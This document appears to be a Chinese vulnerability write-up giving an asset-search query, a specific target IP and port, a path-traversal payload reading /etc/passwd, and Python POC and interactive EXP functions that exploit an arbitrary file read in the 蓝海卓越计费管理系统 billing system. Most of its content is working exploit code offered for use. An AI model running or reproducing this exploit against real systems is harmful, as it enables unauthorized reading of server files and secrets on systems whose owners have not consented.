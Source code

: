 ## 一、资产搜索

```
app="蓝海卓越计费管理系统"
```

## 二、网站测试

```
http://123.10.52.186:7788
```

## 三、验证漏洞

```
/download.php?file=../../../../../etc/passwd
```

![image-20240918194041997](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240918194041997.png)

## 四、POC

```
def poc(target):
    payload = "/download.php?file=../../../../../etc/passwd"
    try:
        res1 = requests.get(url=target,verify=False,timeout=5)
        if res1.status_code == 200:
            res2 = requests.get(url=target+payload,verify=False,timeout=5)
            if "root" in res2.text:
                with open("result.txt","a",encoding="utf-8") as f:
                    f.write(f"该网站[+]{target}存在任意文件读取漏洞\n")
                    return True
            else:
                print(f"该网站[+]{target}不存在任意文件读取漏洞")
        else:
            print(f"该网站[+]{target}有问题，请手动测试！！")
    except Exception as e:
        print(e)
```

## 五、EXP

```
def exp(target):
    while True:
        content = input("请输入要查看的路径，从/目录开始输入(q退出)\n>>>>>>>>>>>>>>>>>>")
        payload = f"/download.php?file=../../../../.."
        res1 = requests.get(url=target, verify=False,timeout=5)
        if content == "q":
            exit()
        if res1.status_code == 200:
            res2 = requests.get(url=target + payload +content, verify=False, timeout=5)
            print(res2.text)
        else:
            print("该文件不存在，请重新输入！！")
```

## 六、测试结果

![image-20240918194413224](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240918194413224.png)

![image-20240918194418378](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240918194418378.png)

![image-20240918194610456](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240918194610456.png)